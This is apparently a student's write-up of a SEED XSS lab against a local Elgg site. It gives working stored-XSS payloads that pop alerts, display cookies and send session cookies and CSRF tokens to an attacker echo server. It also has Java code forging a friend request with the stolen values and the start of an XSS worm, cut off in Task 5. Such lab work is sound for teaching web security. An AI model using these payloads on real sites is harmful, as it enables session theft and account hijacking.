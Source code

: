 ### Lab tasks

#### Task1: Posting a malicious message to display an alert window.

Posting this in the *Brief description* of my Alice's profile

```html
<script>alert('XSS');</script>
```

Works like expected

![xss-alert](img/xss-alert.png)

Alternative way is to link to a javascript file stored on any web-server

```html
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

An then in *myscripts.js* which is stored on the www.example.com host

```js
alert('XSS');
```



#### Task 2: Posting a Malicious Message to Display Cookies

Adding this simple javascript to the users profile

```html
<script>alert(document.cookie);</script>
```

Alert box is now giving away the cookie key

![xss-cookie](img/xss-cookie.png)



#### Task 3: Stealing Cookies from the Victim's Machine

In the previous task the cookie is only displayed on the victims machine. The attacker does not know anything yet. Let's change that by changing the javascript to the following

```html
<script>document.write('<img src=http://127.0.0.1:2002?c=' + escape(document.cookie) + '   >');</script>
```

After a little tweaking we get the cookie printed out from the echoserv.c

```c
// .....
Readline(conn_s, buffer, MAX_LINE-1);
printf("%s",buffer);
```

```sh
[10/14/2017 06:25] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ ./echoserv
GET / HTTP/1.1
GET /favicon.ico HTTP/1.1
GET /favicon.ico HTTP/1.1
GET / HTTP/1.1
GET /?c=Elgg%3D7m2mhnidr8e8k6pefllht669m4 HTTP/1.1
GET /?c=Elgg%3D7m2mhnidr8e8k6pefllht669m4 HTTP/1.1
```



#### Task 4: Session Hijacking using the Stolen Cookies

**Part1 - Reconstruct the correct HTTP Request for 'addFriend(Alice)-request'**

To know how I should correctly set up the *addFriend(Alice)* request, I have to do it legally once. 
I log in with *Boby's* account and head over to *Alice's* profile page. Here I try to add *Alice* as a friend, while I am running the *LiveHTTPHeader-tool*. The output from this tool, tells me how I should forge my malicious request correctly

```
http://www.xsslabelgg.com/action/friends/add?friend=39&__elgg_ts=1508441365&__elgg_token=ed48dd2e149b7493efaa0ed7f6fafc7f

// Request header

GET /action/friends/add?friend=39&__elgg_ts=1508441365&__elgg_token=ed48dd2e149b7493efaa0ed7f6fafc7f HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice
Cookie: Elgg=j6fk84knlhmpkfleu4g0hg9ad5
Connection: keep-alive
Upgrade-Insecure-Requests: 1

// Reponse Header .......
...
...
```

Here we can see that the **guid=39** is used to represent alice. 

```java
    ...
	String queryString = "?friend=39" +
                         "&__elgg_ts=???" +
                         "&__elgg_token=???";

    URL url = new URL("http://www.xsslabelgg.com/action/friends/add" + queryString);
```

We also use this info set up almost the entire header in the provided Java-server. (Stilll missing the cookie)

```java
     ...
	// 2. Add HTTP header info
    urlConn.setRequestProperty("Host", "www.xsslabelgg.com");
    urlConn.setRequestProperty("User-agent", "Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0");
    urlConn.setRequestProperty("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    urlConn.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
    urlConn.setRequestProperty("Accept-Encoding", "gzip, deflate");
    urlConn.setRequestProperty("Referer", "http://www.xsslabelgg.com/profile/alice");
    urlConn.setRequestProperty("Cookie", "???");
	urlConn.setRequestProperty("Connection", "keep-alive");
    urlConn.setRequestProperty("Upgrade-Insecure-Requests", "1");
 
```



**Part2 - Steal cookie + ts + token**

In addition to the *session cookie* I also need to steal these two fellows

```js
elgg.security.token.__elgg_ts = 1508430871;
elgg.security.token.__elgg_token = 'a1e399d232c54ac95aeb5e5cd799dd7e';
```

Elgg encodes these two numbers into every page - different on every reload - that is sent from the server to the client to prevent *CSRF - Cross Site Request Forgery*. The server can compare these two tokens to it's own private key, to make sure it's actually the legit user who are sending a request, and not some third party.  

We do not have to worry about this, as long as we can run code inside the clients browser which can steal these tokens. To do this, I modify the code from *Task3* a bit.

```html
<script> 
  document.write('<img src=http://127.0.0.1:2002?'+
                 'cookie=' + escape(document.cookie) + 	                      
           		 '&__elgg_ts='+escape(elgg.security.token.__elgg_ts)+
                 '&__elgg_token='+escape(elgg.security.token.__elgg_token)+' >'); 
</script>
​```
```

The *echoserver.c* now happily prints out all the numbers I need.

```
GET /?cookie=Elgg%3D250unvhgqd0c5vgi3vb1262ni1&__elgg_ts=1508440936&__elgg_token=d47239857b68958e2cfacfca6cc8d256 HTTP/1.1
```

Back in the Java server we can now build the entire *request-string*.

```java
    ...
	String queryString = "?friend=39" +
                         "&__elgg_ts=1508433166" +
                         "&__elgg_token=3b6a86f94e25f85b5919522e252e342f";

    URL url = new URL("http://www.xsslabelgg.com/action/friends/add" + queryString);
```

...plus filling in the *cookie* in the header

```java
...    
urlConn.setRequestProperty("Cookie", "Elgg=0eleagi4q2m3d384dfnmma4rk5");
```



**Part 3 - Execution**

![](img/addFriendBefore.png)

*Picture: Boby is looking at Alice's page, leaking session cookie and tokens to remote echoserver.c*



```
[10/19/2017 10:14] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ javac HTTPSimpleForge.java 
[10/19/2017 12:46] seed@ubuntu:~/github/imt3501-assignment3/echoserver$ java HTTPSimpleForge
```

*Terminal output: Fresh cookies and tokens are injected into the provided Java program, which is recompiled and ran on a remote machine.*



![](img/addFriendAfter.png)

*Picture: Boby refreshes his page, only to find that he has befriended Alice without consent*



#### Task 5: Writing an XSS worm

**Part 1:  Inject code to victim profile page**

Let's look at LiveHTTPHeaders of how to edit a profile page

```
http://www.xsslabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/boby/edit
Cookie: Elgg=j6fk84knlhmpkfleu4g0hg9ad5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 484
__elgg_token=e14473d4037a91b83100066cf70b8dce&__elgg_ts=1508444117&name=Boby&description=&accesslevel%5Bdescription%5D=2&briefdescription=dhdfei&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=40
```

Great! The big blob at the bottom of the request, is the *request-body/content*. Dessecting it, we can see that it is quite comprehensive

```
 Content-Length: 484
 *__elgg_token=e14473d4037a91b83100066cf70b8dce
  &__elgg_ts=1508444117
  &name=Boby
  &description=
  &accesslevel%5Bdescription%5D=2
  &briefdescription=dhdfei
  &accesslevel%5Bbriefdescription%5D=2
  &location=
  &accesslevel%5Blocation%5D=2
  &interests=
  &accesslevel%5Binterests%5D=2
  &skills=
  &accesslevel%5Bskills%5D=2
  &contactemail=
  &accesslevel%5Bcontactemail%5D=2
  &phone=
  &accesslevel%5Bphone%5D=2
  &mobile=
  &accesslevel%5Bmobile%5D=2
  &website=
  &accesslevel%5Bwebsite%5D=2
  &twitter=
  &accesslevel%5Btwitter%5D=2
  &guid=40
```

